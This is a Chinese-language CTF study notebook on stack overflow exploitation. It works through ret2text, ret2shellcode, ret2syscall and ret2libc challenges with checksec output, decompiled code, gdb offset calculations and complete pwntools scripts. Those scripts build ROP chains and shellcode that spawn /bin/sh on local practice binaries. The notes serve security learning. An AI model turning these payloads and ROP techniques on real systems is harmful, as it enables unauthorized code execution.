# ctf-wiki-pwn刷题


思虑太多就会使人痛苦，入门pwn权当作清晨操练。

使用seveng0佬的pwn ubuntu16虚拟机做题

shellcode参考

https://shell-storm.org/shellcode/index.html

在线编写shellcode

https://shell-storm.org/online/Online-Assembler-and-Disassembler/

系统调用号在线查询链接：https://syscalls.w3challs.com/

arm64查询链接：https://syscall.sh/

libc查询：https://libc.blukat.me/

默认学过汇编且有一定逆向基础，熟悉运用AI辅助。

## 0. 相关术语

**返回导向编程** (Return Oriented Programming)

**程序中已有的代码片段** gadgets 通常是以 `ret` 结尾的指令序列

用于完成某个功能的汇编代码 shellcode，常见的功能主要是获取目标系统的 shell。


## 1. 栈溢出

不同虚拟机地址可能不一样，以实际为准


### 1. ret2text

ret2text 即控制程序执行程序本身已有的的代码


```
checksec ./ret2text
[*] '/home/seveng0/Desktop/ret2text'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

开启了数据执行保护

打开IDA

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("There is something amazing here, do you know anything?");
  gets(s);
  printf("Maybe I will tell you next time !");
  return 0;
}
```




交叉引用在secure函数处找到

```c
void secure()
{
  unsigned int v0; // eax
  int input; // [esp+18h] [ebp-10h] BYREF
  int secretcode; // [esp+1Ch] [ebp-Ch]

  v0 = time(0);
  srand(v0);
  secretcode = rand();
  __isoc99_scanf(&unk_8048760, &input);
  if ( input == secretcode )
    system("/bin/sh");
}
```




后面需要控制程序跳转到`0x0804863A`

鼠标悬停在s上看到s的偏移`-064h`，故s在`esp+1Ch`处

```assembly
.text:08048648 55                            push    ebp
.text:08048649 89 E5                         mov     ebp, esp
.text:0804864B 83 E4 F0                      and     esp, 0FFFFFFF0h
.text:0804864E 83 C4 80                      add     esp, 0FFFFFF80h ;-128的补码
...
.text:080486A7 8D 44 24 1C                   lea     eax, [esp+80h+s]
.text:080486AB 89 04 24                      mov     [esp], eax   ;s
.text:080486AE E8 AD FD FF FF                call    _gets
```


gdb调试，将断点下在`call _gets`处

```
gdb ./ret2text
b *0x080486AE
r
```







```assembly
esp为0xffffcfd0
ebp为0xffffd058
s地址：0xffffcfec
s相对于ebp偏移：0xffffd058-0xffffcfec=0x6c
```


最终payload如下：

```python
from pwn import *
p=process('./ret2text')
target=0x804863a
p.sendline(b'A'*(0x6c+4)+p32(target)) #覆盖返回地址 
#虽说栈从高地址向低地址生长
#但字符串，数组等从低地址向高地址覆写
#32位程序中内存以四字节对齐，所以ebp和返回地址都是4字节,0x6c多加4覆盖了ebp，
#后面的p32(target)覆盖了返回地址
p.interactive()
```




### 2. ret2shellcode

ret2shellcode，即控制程序执行 shellcode 代码。

在栈溢出的基础上，要想执行 shellcode，需要对应的 binary 在运行时，shellcode 所在的区域具有可执行权限。

**在新版内核当中引入了较为激进的保护策略，程序中通常不再默认有同时具有可写与可执行的段，这使得传统的 ret2shellcode 手法不再能直接完成利用**。


```
checksec ./ret2shell*
[*] '/home/seveng0/Desktop/ret2shellcode'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

有可读可写可执行段


```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("No system for you this time !!!");
  gets(s);
  strncpy(buf2, s, 0x64u);
  printf("bye bye ~");
  return 0;
}
```

将s拷贝到buf2，buf2在`.bss:0804A080`

查看一下bss段权限

```bash
gdb ./ret2shell*
b main  #断点下在main函数处
r
vmmap  #查看内存映射
```





可以看到bss段权限`rwxp`可读，可写，可执行，私有（其它进程不能访问）

那么我们参考上一题，并把返回地址覆写成buf2的地址

```
esp:0xffffcfc0
ebp:0xffffd048
s:esp+0x1c=0xffffcfdc
ebp与s的距离：0x6c
```


```python
from pwn import *
p= process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
#shellcraft.sh()：生成一个调用 /bin/sh 的 Shellcode
#asm()：将汇编代码转换为机器码字节序列
buf2_addr = 0x804a080
p.sendline(shellcode.ljust(112, b'A') + p32(buf2_addr))#0x6c+4=112
#将 shellcode 左对齐并填充到 112 字节，不足部分用 b'A' 填充。
p.interactive()
```




### 3. ret2syscall

ret2syscall，即控制程序执行系统调用，获取 shell。


```bash
checksec rop
[*] '/home/seveng0/Desktop/pwn/rop'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序，开启了NX保护(又称DEP保护，数据执行保护)。

ida打开

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 1, 0);
  puts("This time, no system() and NO SHELLCODE!!!");
  puts("What do you plan to do?");
  gets(&v4);
  return 0;
}
```


同理可知v4 相对于 ebp 的偏移为 108。所以我们需要覆盖的返回地址相对于 v4 的偏移为 112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。

比如

```assembly
#execve("/bin/sh",NULL,NULL)
#查看linux_x86调用表
#系统调用号，即 eax 应该为 0xb
#第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
#第二个参数，即 ecx 应该为 0
#第三个参数，即 edx 应该为 0
```


我们需要使用**程序中已有的代码片段**`gadgets`来控制寄存器的值。比如说，现在栈顶是 10，那么如果此时执行了 pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets 的方法，我们可以使用 ropgadgets 这个工具。

首先，寻找控制eax的gadgets

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
```



上面几个都可以控制eax寄存器，我这里选择第二个作为gadgets

```bash
ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
```


选择`0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret`，可以同时控制edx,ecx,ebx




寻找`/bin/sh`字符串位置

```bash
ROPgadget --binary rop --string  '/bin/sh'
```

寻找`int 0x80`的位置

```bash
ROPgadget --binary rop --only 'int'
```




构造payload

```python
from pwn import *
p= process('./rop')

pop_eax_ret=0x080bb196
pop_edx_ecx_ebx_ret=0x0806eb90
int_0x80=0x08049421
binsh=0x080be408

payload=flat(['A'*112,pop_eax_ret,0xb,pop_edx_ecx_ebx_ret,0,0,binsh,int_0x80])
p.sendline(payload)
p.interactive()
```



或者使用`pwntools`的`ROP`模块

```python
from pwn import *
# 启动目标程序
p = process('./rop')
# 加载二进制文件
context.binary = './rop'
rop = ROP(context.binary)
# 查找 gadgets 和字符串
pop_eax_ret = rop.find_gadget(['pop eax', 'ret'])[0]
pop_edx_ecx_ebx_ret = rop.find_gadget(['pop edx', 'pop ecx', 'pop ebx', 'ret'])[0]
int_0x80 = rop.find_gadget(['int 0x80'])[0]
binsh = next(context.binary.search(b'/bin/sh'))

# 构造 ROP 链
# flat() 的主要功能是将多个数据项（如整数、字符串、列表等）拼接成一个连续的字节序列。
payload = flat(
    b'A' * 112,  # 填充缓冲区
    pop_eax_ret, 0xb,  # eax = 11 (execve 系统调用号)
    pop_edx_ecx_ebx_ret, 0, 0, binsh,  # edx = 0, ecx = 0, ebx = binsh
    int_0x80  # 触发系统调用
)

# 发送 payload
p.sendline(payload)
# 切换到交互模式
p.interactive()
```


### 4. ret2libc1

ret2libc 即控制函数的执行 libc 中的函数，通常是返回至某个函数的 plt 处或者函数的具体位置 (即函数对应的 got 表项的内容)。一般情况下，我们会选择执行 system("/bin/sh")，故而此时我们需要知道 system 函数的地址。


```bash
seveng0@ubuntu:~/Desktop/pwn$ checksec ./ret2libc1
[*] '/home/seveng0/Desktop/pwn/ret2libc1'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

32位程序开启了NX保护，没开RELRO(重定位只读)，可以覆盖`.got.plt`中的条目指向恶意代码。

ida打开

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s[100]; // [esp+1Ch] [ebp-64h] BYREF

  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets(s);
  return 0;
}
```

找一下字符串

```bash
ROPgadget --binary ./ret2libc1  --string "/bin/sh"
Strings information
============================================================
0x08048720 : /bin/sh
```


alt+T找到system函数







如上图所示，

- `.plt:08048460` 是 `system` 函数在 PLT 中的地址，编译时就已经确定，并且在程序运行时不会改变。
- `.got.plt:0804A018` 是 `system` 函数在 GOT 中的条目，在程序启动时，GOT 中的条目可能还没有被动态链接器填充。


当你调用 `system` 函数时，

1. 首先会调用`call system@plt`

2. 执行`system@plt`

```assembly
.plt:08048460  FF 25 18 A0 04 08     jmp    ds:off_804A018  ; 跳转到 GOT 中的条目
.plt:08048466  68 18 00 00 00        push    18h             ; 压入重定位索引
.plt:0804846B E9 B0 FF FF FF         jmp     sub_8048420        ; 跳转到 PLT0
```

- 如果 GOT 中的条目已经被动态链接器填充，`off_804A018` 会直接指向 `system` 函数的真实地址，成功执行函数。
- 如果 GOT 中的条目还未被填充，`off_804A018` 会指向 PLT 中的解析逻辑(从`08048466`开始继续执行)

3. 跳转执行PLT0

```assembly
.plt:08048420 FF 35 04 A0 04 08      push    ds:dword_804A004 ; 压入 GOT[1]
.plt:08048426 FF 25 08 A0 04 08      jmp     ds:dword_804A008 ; 跳转到动态链接器
```

4. 动态链接器解析 `system` 的地址：
   - 动态链接器根据重定位索引（`18h`）和 GOT[1] 的值，找到 `system` 函数的真实地址。
   - 动态链接器将 `system` 的地址写入 GOT 中的条目（`off_804A018`）。

5. 跳转到 `system` 的真实地址，并且后续程序再次跳转到 `system@plt` 时，`jmp ds:off_804A018` 会直接跳转到 `system` 函数的真实地址。


这里我们需要注意函数调用栈的结构，如果是正常调用 system 函数，我们调用的时候会有一个对应的返回地址，这里以 `'bbbb'` 作为虚假的地址，其后参数对应的参数内容。

```
|-------------------|
|    /bin/sh 地址   |  <- system 的参数 (arg1)
|-------------------|
|    虚假返回地址   |  <- system 的返回地址 (可以是任意值，如 'bbbb')
|-------------------|
|    system 地址    |  <- 覆盖的返回地址，跳转到 system 函数
|-------------------|
|    垃圾数据       |  <- 填充缓冲区，覆盖栈空间
|-------------------|
```


```python
from pwn import *
p=process("./ret2libc1")
system_plt=0x08048460
#填system函数在PLT中的地址，因为PLT表编译时就已经确定，并且在程序运行时不会改变，
#若GOT表未初始化，PLT会自动调用动态链接器找到函数真实地址，
#填入GOT表并调用函数
binsh=0x08048720

payload=flat([b'a'*112,system_plt,binsh])
p.sendline(payload)
p.interactive()
```





### 5. ret2libc2

```assembly
linux_x86默认函数调用约定cdecl，参数从右到左依次压入栈，
调用者清理栈（即调用者清理为函数参数分配的栈空间），
被调用者（当前函数）负责清理自己的栈帧（自己的局部变量），
若函数使用了栈帧(ebp作为栈指针),则当前函数退出时会leave(恢复栈帧),retn(返回到调用者),
若函数没有使用栈帧(通过esp直接管理栈)，编译器可能不会生成leave，而是直接调整esp并执行retn

enter=push ebp;
mov ebp,esp;
;push ebp相当于sub esp,4;mov [esp],ebp;

leave=mov esp,ebp;
pop ebp;

ret=pop eip;
;pop eip相当于mov eip,[esp];add esp,4;

无参数时，retn=pop eip;
带参数时，retn 8=pop eip;add esp,8;
```

`ldd ./ret2libc2`，把外部依赖的`libc.so.6`复制一份出来，ida打开看看



gets函数片段




该题目与例 1 基本一致，只不过不再出现 /bin/sh 字符串，所以此次需要我们自己来读取字符串，所以我们需要两个 gadgets，第一个控制程序读取字符串，第二个控制程序执行 system("/bin/sh")。

````python
from pwn import *
p=process("./ret2libc2")

gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])
#来梳理一下上行代码的执行顺序
#1.首先栈溢出先覆盖完ebp，然后覆盖函数返回值为gets_plt
#2.执行gets_plt，将buf2作为第一个参数，执行完后会ret，从而执行pop_ebx处的代码
#pop_ebx是为了平衡堆栈，用来把用完的buf2给弹出堆栈，这样ret的时候能正确指向system函数
#3.执行system_plt函数，4字节垃圾数据作为假的返回地址，buf2作为第一个参数

p.sendline(payload)

p.interactive()
````








### 6. gdb输入重定向

我们可以使用python把输入提前写进1.txt，然后在gdb里将输入重定向至1.txt


```python
from pwn import *
gets_plt = 0x08048460
system_plt = 0x08048490
pop_ebx = 0x0804843d
buf2 = 0x804a080

payload=flat([b'a'*112,gets_plt,pop_ebx,buf2,system_plt,b'b'*4,buf2])

with open('./1.txt','wb') as fp:
    fp.write(payload)
print("成功写入")
```


```bash
gdb ./ret2libc2
b *gets
b *0x08048490 #system_plt
b *0x0804843d #pop_ebx
r < ./1.txt #输入重定向至1.txt并重新执行
continue #continue之后esp指向buf2，eip指向pop ebx，符合预期
continue #continue之后esp指向b'b'*4，eip指向system函数，符合预期
```





